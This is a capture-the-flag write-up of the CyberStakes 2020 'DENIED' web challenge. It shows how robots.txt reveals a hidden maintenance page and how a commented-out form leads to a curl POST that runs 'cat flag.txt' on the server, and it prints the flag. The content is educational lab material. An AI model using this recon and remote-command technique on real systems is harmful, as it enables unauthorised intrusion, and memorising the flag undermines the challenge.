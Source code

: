 
# DENIED

* **Category**: Web Security
* **Points**: 75
* **Challenge**: Sometimes websites are afraid of the terminator finding things out. http://challenge.acictf.com:27856 The flag is in flag.txt.
* **Hint #1**: How can websites keep search engines from finding private information?
* **Hint #2**: Sometimes the developers leave some comments that give you a hint about what to do...
* **Hint #3**: You can use the cat command to read files

<br />

First, lets navigate to the site in a web browser:

<br />

![site](https://github.com/eesantiago/Writeups/blob/master/cyberstakes/2020/denied/screenshots/site.JPG)

<br />

Based on the hints and the image of a robot, lets look at the robots.txt file:

```
curl http://challenge.acictf.com:27856/robots.txt

User-agent: *
Allow: /index.html
Allow: /products.html
Disallow: /maintenance_foo_bar_deadbeef_12345.html
```

<br />

Now we navigate to the disallowed page, `/maintenance_foo_bar_deadbeef_12345.html`:

<br />

![maintenance](https://github.com/eesantiago/Writeups/blob/master/cyberstakes/2020/denied/screenshots/maintenance.JPG)

<br />

So the page tells us to *run a command*.  Lets looks at the source of the page to see if their are any hints on how to do this:
```
*...snip...*

        <!--
            Disabled for being insecure... oops!
        <form action="/secret_maintenance_foo_543212345", method="POST">
            <input name="cmd"/>
        </form>-->

*...snip...*
```

<br />

Lets use `curl` to send a POST request to this insecure page with the parameter *cmd* and the value of *cat flag.txt*:
```

curl http://challenge.acictf.com:27856/secret_maintenance_foo_543212345 -X POST --form cmd='cat flag.txt'

*...snip...*

<h1>Maintenance</h1>
        <!--
            Disabled for being insecure... oops!
        <form action="/secret_maintenance_foo_543212345", method="POST">
            <input name="cmd"/>
        </form>-->
        <p>Result: ACI{ccdcb229da85c8d0a6a239edb19} </p>

*...snip...*  
```

<br />

##Flag: ACI{ccdcb229da85c8d0a6a239edb19}

